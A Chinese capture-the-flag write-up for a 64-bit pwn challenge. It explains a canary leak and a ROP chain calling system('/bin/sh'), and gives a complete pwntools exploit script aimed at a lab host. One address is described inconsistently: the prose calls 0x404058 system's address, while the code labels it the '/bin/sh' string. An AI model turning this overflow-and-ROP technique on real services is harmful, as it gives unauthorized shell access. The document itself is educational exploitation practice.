



# Pwn-简单rop

## 题意
给你一个`pwn.bin`

## 题解
首先checksec查看一下，发现是64位并且开启了canary。在计算机安全中，Canary用来检测栈溢出，如果检测到危险，就强制程序崩溃，防止攻击者劫持控制流。也就是说在栈值后面添加一串随机数，末尾字节是\x00


然后用IDA反编译一下程序，发现char数组s只有40的长度，但两次输入长度分别是48和80，引导我们构造溢出。第一次输入泄露栈的保护值，第二次输入用于构造ROP链


按shift+F12查看system的地址是0x404058


```python
from pwn import *

# 目标程序的地址信息
host = '172.17.0.15'
port = 18133
p = remote(host, port)

# 地址信息
pop_rdi = 0x4011DE      # pop rdi; ret
sh_addr = 0x404058      # "/bin/sh" 字符串地址
call_sys = 0x40127E     # system 函数地址

# 第一次输入：泄露 canary 值
payload = cyclic(40)    # 填充缓冲区
p.sendlineafter(b'Rush B!!!\n', payload)
p.recvuntil(b"\n")
canary = u64(p.recv()[:7].rjust(8, b'\0'))  # 提取 canary 值

# 第二次输入：构造 ROP 链
payload = cyclic(40)                 # 填充缓冲区
payload += p64(canary)               # 加入泄露的 canary 值
payload += cyclic(8)                 # 填充对齐
payload += p64(pop_rdi) + p64(sh_addr)  # 设置 rdi = "/bin/sh"
payload += p64(call_sys)             # 调用 system 函数
p.sendline(payload)

# 获取交互式 shell
p.interactive()

```
